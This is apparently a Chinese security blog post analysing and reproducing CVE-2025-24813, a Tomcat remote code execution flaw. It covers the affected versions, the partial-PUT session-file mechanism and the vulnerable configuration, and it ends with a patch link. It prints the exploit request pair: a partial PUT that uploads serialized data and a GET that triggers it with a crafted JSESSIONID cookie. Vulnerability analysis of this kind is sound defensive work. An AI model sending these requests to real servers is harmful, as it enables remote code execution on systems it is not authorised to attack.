 #  全网首发！CVE-2025-24813 Tomcat 最新 RCE 分析复现   
菜狗  富贵安全   2025-05-24 00:03  
  
**漏洞概况**  
  
Tomcat 是一个开源的、轻量级的 Web 应用服务器 和 Servlet 容器。它由 Apache 软件基金会下的 Jakarta 项目开发，是目前最流行的 Java Web 服务器之一。  
  
该漏洞利用条件较为复杂，需同时满足以下四个条件：  
1. 应用程序启用了DefaultServlet写入功能，该功能默认关闭  
  
1. 应用支持了 partial PUT 请求，能够将恶意的序列化数据写入到会话文件中，该功能默认开启  
  
1. 应用使用了 Tomcat 的文件会话持久化并且使用了默认的会话存储位置，需要额外配置  
  
1. 应用中包含一个存在反序列化漏洞的库，比如存在于类路径下的 commons-collections，此条件取决于业务实现是否依赖存在反序列化利用链的库  
  
**漏洞影响范围**  
- 9.0.0.M1 <= tomcat <= 9.0.98  
  
- 10.1.0-M1 <= tomcat <= 10.1.34  
  
- 11.0.0-M1 <= tomcat <= 11.0.2  
  
**漏洞原理分析**  
  
Content-Range  
 在 Tomcat 的HTTP PUT请求中主要用于实现大文件的分块传输。在文件上传未完成的情况下，内容会被临时存储在Tomcat的工作目录：$CATALINA_BASE/work/Catalina/localhost/ROOT  
。  
  
该漏洞的核心在于不完整PUT请求上传时的文件名处理机制：文件路径中的分隔符/  
会被转换为.  
。例如：访问/xxxxx/session  
会被解析为.xxxxx.session  
  
因此整个漏洞的利用过程为：  
1. Tomcat的File会话存储默认路径同样位于：CATALINA_BASE/work/Catalina/localhost/ROOT  
  
1. 当存在反序列化利用链时，可以上传包含恶意序列化数据的文件  
  
1. 通过设置JSESSIONID=.xxxxx  
来触发漏洞  
  
**环境配置**  
  
在conf/context.xml中，添加如下配置，开启File文件会话存储  
```
<Context\>  <Manager className\="org.apache.catalina.session.PersistentManager"\>      <Store className\="org.apache.catalina.session.FileStore"/>  </Manager\>  </Context\>
```  
  
在conf/web.xml中，将DefaultServlet的readonly配置为false，启用写入功能  
```
<servlet\>      <servlet-name\>default</servlet-name\>      <servlet-class\>org.apache.catalina.servlets.DefaultServlet</servlet-class\>      <init-param\>          <param-name\>debug</param-name\>          <param-value\>0</param-value\>      </init-param\>      <init-param\>          <param-name\>readonly</param-name\>          <param-value\>false</param-value\>      </init-param\>      <load-on-startup\>1</load-on-startup\>  </servlet\>
```  
  
将Commons Collections 3.2.1.jar放入lib文件夹  
  
**漏洞复现**  
  
生成一个恶意的序列化文件，使用以下数据包上传，需要注意Range的分块值需要与Length保持一致，且大于当前文件的长度。  
```
PUT /xxxxx/session HTTP/1.1Host: 192.168.131.32:8080Content-Length: 1000Content-Range: bytes 0-1000/1200{{反序列化文件内容)}}
```  
  
使用以下PoC触发  
```
GET / HTTP/1.1Host: 192.168.131.32:8080Cookie: JSESSIONID=.xxxxx
```  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_png/veA9QmcJk5neSp7MqBEnEUDiaWgxVV3dQNibOMLnNvspm1sdUy2WRlriayDicYr3yp1KLkJ0W7nw2bHxGJNlicGmq5Q/640?wx_fmt=png&from=appmsg "")  
  
**修复方案**  
  
Apache基金会官方已发布漏洞公告，可下载补丁更新：https://lists.apache.org/thread/j5fkjv2k477os90nczf2v9l61fb0kkgq  
  
  
原文链接：  
https://forum.butian.net/article/674  
  
  
